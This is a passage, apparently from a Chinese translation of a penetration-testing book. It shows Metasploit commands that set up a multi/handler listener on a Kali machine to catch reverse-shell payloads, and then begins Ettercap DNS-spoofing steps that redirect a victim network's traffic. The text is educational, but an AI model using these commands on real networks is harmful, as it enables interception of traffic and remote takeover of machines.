 ```
use exploit/multi/handler
set LHOST 172.16.42.139 # Kali's IP address.
set LPORT 445 # Set the listening port. The payload is set to 445.
run -j # Start the handler in the background.  
```

![](img/e89e7ba0-13e1-4c87-82bb-414e83240ae4.png)

# ETERCAP 设置

Ettercap 是一个很好的欺骗工具，我们在本书中已经使用了很多，我们将再次推出它。我们需要欺骗 DNS 服务并将其定向到我们的 Kali box。eTerCap 附带了一个插件，专门用于此目的。在这次攻击中，由于我们的 Kali 盒是受害者网络的本地设备，因此我们可以使用 GUI 版本。您可以在嗅探和欺骗| ettercap 图形下找到这一点。程序如下：

1.  首先，我们需要设置我们的 DNS A 记录，以便在欺骗时使用。如果这是你第一次伪造 DNS，你需要用你最喜欢的文本编辑器创建一个新文件。将以下 A 记录添加到文件中。通过通配符记录（`*.`，我们应该是好的，如下所示：
